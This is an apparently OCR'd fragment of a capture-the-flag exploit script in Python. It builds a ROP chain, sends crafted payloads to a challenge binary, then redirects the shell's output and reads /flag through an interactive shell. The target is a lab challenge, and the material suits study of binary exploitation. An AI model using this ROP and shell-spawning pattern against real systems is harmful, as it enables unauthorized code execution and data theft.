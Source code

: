 ```python
rop_chain += p64(pop_rdx) + p64(0)
rop_chain += p64(pop_rsp) + p64(syscall)

payload1 = payload1 + rop_chain
payload1 = payload1.ljust(0x100, b'\x00')

payload2 = b'a'*0x3b
challenge(payload1, payload2)

sh.sendline('exec 1>& 0')
time.sleep(1)
sh.sendline('cat /flag')
sh.interactive()
```

